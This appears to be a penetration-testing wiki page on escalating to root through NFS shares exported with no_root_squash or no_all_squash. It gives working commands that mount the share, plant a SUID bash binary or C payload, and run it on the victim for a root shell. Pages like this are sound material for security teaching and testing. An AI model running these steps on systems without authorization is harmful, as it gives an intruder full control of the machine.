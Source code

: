 # NFS no\_root\_squash/no\_all\_squash misconfig PE

Read the \_ **/etc/exports** \_ file, if you find some directory that is configured as **no\_root\_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

**no\_root\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no\_all\_squash:** This is similar to **no\_root\_squash** option but applies to **non-root users**. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

## Privilege Escalation

### Remote Exploit

If you have found this vulnerability, you can exploit it:

* **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder the **/bin/bash** binary and giving it **SUID** rights, and **executing from the victim** machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

* **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder our C compiled payload that will abuse the SUID permission, give to it **SUID** rights, and **execute from the victim** machine that binary (you can find here some[ C SUID payloads](../../../../linux-unix/linux-privilege-escalation/broken-reference/)).

```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```

## Resources

\*\*\*\*[**https://tryhackme.com/room/linuxprivesc**](https://tryhackme.com/room/linuxprivesc) **(Task 19)**

[**https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/**](https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/)\
[**https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/**](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/)

***
